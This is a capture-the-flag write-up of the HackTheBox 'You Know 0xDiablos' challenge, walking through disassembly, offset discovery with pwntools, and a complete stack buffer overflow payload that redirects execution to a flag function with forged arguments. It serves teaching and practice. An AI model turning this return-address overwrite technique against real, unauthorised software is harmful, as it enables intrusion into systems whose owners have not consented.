

# [](#intro)Introduction

In this write-up, we are going to be taking a closer look at the _You Know 0xDiablos_ challenge on [HackTheBox](https://app.hackthebox.com). We can download the challenge files and test them in our own machine; but to solve it, we need to use netcat.

# [](#level-description)Challenge description

The challenge description says:

> Description

> I missed my flag

In order to better understand this, let's use `nc` to connect to the machine:

```bash
kaizen@celestial /tmp/htb $ nc 167.99.82.136 31251
You know who are 0xDiablos: 
hi mom
hi mom
```

This really looks like a buffer overflow problem. From what it looks like, we pass a stdin value and get it back. Let's download the files and investigate this further.

# [](#approach)Approach mindset

As always, let's keep our mindset:

1. Understanding basic concepts
2. Understanding the problem
3. Crafting an attack
4. Solving

After downloading the file, we see that it has the name `vuln` and we get:

```bash
kaizen@celestial /tmp/htb $ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
```

showing us it is an ELF-32 executable. We might need to get our sleeves dirty using GDB in order to understand what is happening under the hoods.

## [](#mindset-step1)Step 1 - Understanding basic concepts

Alright, but what are an ELF-32 bit executable and GDB? 

### ELF file

An ELF-32 bit LSB executable file can be broken down to:

- **ELF:** Stands for Executable and Linkable Format. Put into simple terms, it is the Linux version of an .exe file. It's a standard file format for executable files, shared libraries, and core dumps on Linux and other Unix-like operating systems.
- **32bit**: This indicates the architecture for which the file is combiled. 32bit mean its use is for a 32bit architecture, in contrast of being for a 64bit.
- **LSB**: Or Least Significant Bit, refers to the endianness of the file. LSB means that the least significant byte of a word is stored in the smallest address. This means it works with little-endian format.

The fact that this ELF is not stripped also tells us we can possibly debug it into assembly, or even C.

## GDB

GDB (GNU Debugger) is a debugger, often used as a reverse engineering tool, that runs on many Unix-like systems and works with numerous programming languages. It essentially allows us to grasp the program's code in an assembly-like format to understand its flow.

Let's see how we can use it. To start analyzing an executable, we run:

```bash
$ gdb ./<executable>
```

This will open up the GDB CLI in your terminal. When inside, we need to know some basic commands:

- `run/r`: to run the program as it is.
- `break/b *<address/function>`: sets a breakpoint. GDB will pause the execution of the program when it reaches this point.
- `x/20x <register>`: displays the content of memory at a given address. 
- `continue/c`: continues execution flow of the program.
- `stepi`: jumps to the next instruction in the stack.
- `disassemble`: disassembles current function.

This will make more sense once we start analyzing the binary ELF file.

## [](#mindset-step2)Step 2 - Understanding the problem

First, let's use `objdump` to get the assembly instructions of `vuln`:

```bash
$ objdump -d vuln
```

This will give a huge assembly dump. What it is most interesting here are the following functions `flag`, `vuln` and `main`. The `vuln` function is called from `main` at this address:

```bash
[...snip...]
8049301:       83 ec 0c                sub    $0xc,%esp
8049304:       8d 83 38 e0 ff ff         lea    -0x1fc8(%ebx),%eax
804930a:       50                      push   %eax
804930b:       e8 60 fd ff ff            call   8049070 <puts@plt>
8049310:       83 c4 10                add    $0x10,%esp
8049313:       e8 5a ff ff ff             call   8049272 <vuln>
[...snip...]
```

Once `vuln` is called, we get to the point where it asks for our stdin input:

```bash
[...snip...]
8049290:       50                      push   %eax
8049291:       e8 aa fd ff ff            call   8049040 <gets@plt>
8049296:       83 c4 10                add    $0x10,%esp
8049299:       83 ec 0c                sub    $0xc,%esp
804929c:       8d 85 48 ff ff ff          lea    -0xb8(%ebp),%eax
80492a2:       50                      push   %eax
80492a3:       e8 c8 fd ff ff            call   8049070 <puts@plt>
80492a8:       83 c4 10                add    $0x10,%esp
80492ab:       90                      nop
80492ac:       8b 5d fc                mov    -0x4(%ebp),%ebx
80492af:       c9                      leave
 [...snip...]
```

Since there is nowhere in the instructions a call to the `flag` function, we might need to inject a call ourselves within the `gets@plt`, which is vulnerable to buffer overflow. We just need to know how much allocated memory is reserved to the buffer pointed by the `%esp`, which is our input. If succeeded, we can overflow the stack and overwrite the return address to call the `flag` function.

The interesting parts of the `flag` functions are:

```bash
[...snip...]
 8049205:       e8 a6 fe ff ff            call   80490b0 <fopen@plt>
 804920a:       83 c4 10                add    $0x10,%esp
 804920d:       89 45 f4                mov    %eax,-0xc(%ebp)
 8049210:       83 7d f4 00             cmpl   $0x0,-0xc(%ebp)
 8049214:       75 1c                   jne    8049232 <flag+0x50>
 8049216:       83 ec 0c                sub    $0xc,%esp
 8049219:       8d 83 14 e0 ff ff         lea    -0x1fec(%ebx),%eax
 804921f:       50                      push   %eax
 8049220:       e8 4b fe ff ff            call   8049070 <puts@plt>

 [...snip...]
 8049232:       83 ec 04                sub    $0x4,%esp
 8049235:       ff 75 f4                 push   -0xc(%ebp)
 8049238:       6a 40                   push   $0x40
 804923a:       8d 45 b4                lea    -0x4c(%ebp),%eax
 804923d:       50                      push   %eax
 804923e:       e8 0d fe ff ff            call   8049050 <fgets@plt>
 8049243:       83 c4 10                add    $0x10,%esp
 8049246:       81 7d 08 ef be ad de    cmpl   $0xdeadbeef,0x8(%ebp)
 804924d:       75 1a                   jne    8049269 <flag+0x87>
 804924f:       81 7d 0c 0d d0 de c0    cmpl   $0xc0ded00d,0xc(%ebp)
 8049256:       75 14                   jne    804926c <flag+0x8a>
```

We get to call the `fopen` fucntion, which is seemingly openning a text file and reading its contents. Then, at `0x08049214` we are jumping to the next part of the code, if openning the file was successful. Within the `cmpl` instructions, we are comparing `$0xdeadbeef` with whatever is stored in `0x8(%ebp)` and `$0xc0ded00d` with what is stored in `0xc(%ebp)`. If they match, then we continue to this:


```bash
[...snip...]
8049258:       83 ec 0c                sub    $0xc,%esp
804925b:       8d 45 b4                lea    -0x4c(%ebp),%eax
804925e:       50                      push   %eax
804925f:       e8 cc fd ff ff            call   8049030 <printf@plt>
8049264:       83 c4 10                add    $0x10,%esp
8049267:       eb 04                   jmp    804926d <flag+0x8b>
[...snip...]
```

which prints the contents of the `fopen`. 


## [](#mindset-step3)Step 3 - Crafting the attack

To have this to work, we need to find the exact offset to which we overflow the buffer and inject a call to the `flag` function. To calculate the offset, we can use `pwntools` in Python and create a cycled input. This will calculate a rough estimate of how many bytes we need to overflow and inject a call. A simple Python script should do the job:

```python
from pwn import cyclic
import sys
pattern = cyclic(300)
sys.stdout.buffer.write(pattern)
```

Let's create a file with this as a payload to be passed to the `vuln` executable. We can run:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 cycle.py > cycle.txt
(htb-venv) kaizen@celestial /tmp/htb $ cat cycle.txt 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```

Now, we  need to pass this as a payload to the `vuln` executable and examine at what address the program crashes. To help us with that, we will use GDB: `gdb ./vuln`. Once inside, we run with `r < cycle.txt`:

```bash
(gdb) r < cycle.txt
Starting program: /tmp/htb/vuln < cycle.txt
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                  
[Thread debugging using libthread_db enabled]                                          
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac

Program received signal SIGSEGV, Segmentation fault.
0x62616177 in ?? ()
```

Ok, the stack crashed at `0x62616177`. Now, we can calculate the offset by giving this address to `pwntools`:

```python
from pwn import cyclic_find
eip_value = 0x61776261
offset = cyclic_find(eip_value)
print(f"The offset: {offset}")
```

Gives:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 offset.py 
The offset: 186
```

So the offset is roughly 186. I say roughly, because this method does not always work, but it always gives a rough estimate. Now it's time to investigate it further with GDB. Let's try to see if we can delivery a payload with this offset and containing the address of the `flag` function to be called. We could start with this payload `python3 -c "import sys; sys.stdout.buffer.write(b'A'*186 + <flag function address>)"`, where in this case, the function address is: `0x080491e2`. Since we are in a little-endian system, we write the payload as follows:

```python
import sys
offset = 186
sys.stdout.buffer.write(b'A'*offset + b'\xe2\x91\x04\x08')
```
Let's write the output to a binary file:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 -c "import sys; sys.stdout.buffer.write(b'A'*186 + b'\xe2\x91\x04\x08')" > payload.bin
```

Now, with GDB, we can analyze if the offset is correct:

```bash
(gdb) r < payload.bin
Starting program: /tmp/htb/vuln < payload.bin
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                  
[Thread debugging using libthread_db enabled]                                          
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��

Program received signal SIGSEGV, Segmentation fault.
0x08000804 in ?? ()
```

Note that the program crashed at `0x08000804`. This suggests that the return address might not have been overwritten with the correct address; that is, our offset is wrong. With an offset of 187, we get the same, but now in the `0x00080491` address. As we can see, slowly our payload is being overwritten in the `$eip` register. With 188 we get a segmentation fault at `0xdeadbeef`, and with 189 we get it at `0x91e24141`. This indicates the correct offset is 188, since the crash at 0xdeadbeef with this offset confirms that the exact location of the return address on the stack is being targeted. The return address is overwritten with the bytes from our payload and calling the `flag` function.

Also, this is what we get when we pass the payload to the executable with an offset of 188:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 -c "import sys; sys.stdout.buffer.write(b'A'*188 + b'\xe2\x91\x04\x08')" | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```

> Hurry up and try in on server side.

This seems a message that is being displayed at the flag function. Let's check it with GDB:

```bash
(gdb) b flag
Breakpoint 1 at 0x80491e6
(gdb) r < payload.bin
Starting program: /tmp/htb/vuln < payload.bin
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                  
[Thread debugging using libthread_db enabled]                                          
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��

Breakpoint 1, 0x080491e6 in flag ()
```

Aha! As expected, we are reaching the `flag` function now! It is just a matter of adjusting our payload now to successfully printing the contents of the file openned with `fopen`. Let's use GDB to investigate the flow of the `flag` function:

```bash
[...snip...]
0x08049205 <+35>:    call   0x80490b0 <fopen@plt>
0x0804920a <+40>:    add    $0x10,%esp
0x0804920d <+43>:    mov    %eax,-0xc(%ebp)
0x08049210 <+46>:    cmpl   $0x0,-0xc(%ebp)
0x08049214 <+50>:    jne    0x8049232 <flag+80>
0x08049216 <+52>:    sub    $0xc,%esp
0x08049219 <+55>:    lea    -0x1fec(%ebx),%eax
0x0804921f <+61>:    push   %eax
0x08049220 <+62>:    call   0x8049070 <puts@plt>
[...snip...]
```

Note that we are comparing the contents of the `%ebp` stack with `0x0`, which is C equivalent to `NULL`. If the `cmpl` returns true, we do not jump with `jne` and we get the message "Hurry up and try in on server side." through the `puts@plt` function. This happens because there is no text file to be openned in our local machine. 

Without knowing the name of the file openned by `fopen`, we cannot go further with our analysis locally. One way to enhance our analysis is by using Ghidra. Ghidra is a reverse engineering software that a lot of times rewrites the original code to us from the assembly.

After running Ghidra, we find the following:



We see that the file name is `flag.txt`. Alright! We can create a flag ourselves and keep testing it locally. Just run `echo "hi mom" > flag.txt` and go back to GDB!

```bash
(gdb) r < payload.bin 
Starting program: /tmp/htb/vuln < payload.bin
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                  
[Thread debugging using libthread_db enabled]                                          
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��

Program received signal SIGSEGV, Segmentation fault.
0xffffff00 in ?? ()
```

Note that now we are not getting the message. This is because the program is successfully openning the `flag.txt` file and reading its contents. The problem is: it is not printing it for us!

Looking back at Ghidra, we see this line:

```c
[...snip...]
if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3))
[...snip...]
```

which is similar to the line we analyzed with `objdump`, where it compares the values of two registers with `0xdeadbeef` and `$0xc0ded00d`. To trigger this if statement, we need to concatenate these addresses in our payload. Hopefully, this solves the challenge!


## [](#mindset-step4)Step 4 - Solving!
Let's test our new payload locally:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 -c "import sys; sys.stdout.buffer.write(b'A'*188 + b'\xe2\x91\x04\x08' + b'\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" > payload2.bin(htb-venv) kaizen@celestial /tmp/htb $ cat payload2.bin | ./vulnYou know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAA�ﾭ�
Segmentation fault (core dumped)
```

Note that it did not work correctly. This is because we need to pass the `param1` and `param2` as function parameters. In order to pass them as a parameter, we need to populate the EIP register with an address. This address can essentially be anything, but its size in bytes matter. The final payload would then be:

```bash
(htb-venv) kaizen@celestial /tmp/htb :( $ python3 -c "import sys; sys.stdout.buffer.write(b'A'*188 + b'\xe2\x91\x04\x08' + b'mula\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" > payload2.bin
(htb-venv) kaizen@celestial /tmp/htb $ cat payload2.bin | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAA�mulaﾭ�
hi mom
Segmentation fault (core dumped)
```

As we can see, we now print the value of the `flag.txt`. This adjustment was made such that it would align the stack for the `flag` function to understand our paramters.

Let's try in the server now!

```bash
^C(htb-venv) kaizen@celestial /tmp/htb $ cat payload2.bin - | nc 167.99.82.136 31987
You know who are 0xDiablos: 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAA�mulaﾭ�
HTB{redacted}
```
And there is our flag!

# [](#conclusions)Conclusion

In this CTF, we learned a lot more about reverse engineering, GDB and how to exploit a simple buffer overflow. As we can see, reverse engineering exploitation is extremely hard and troublesome, even in its simpler form.

I hope you learned something knew today, and as always, never forget to do your **research**!

<a href="/">Go back</a>

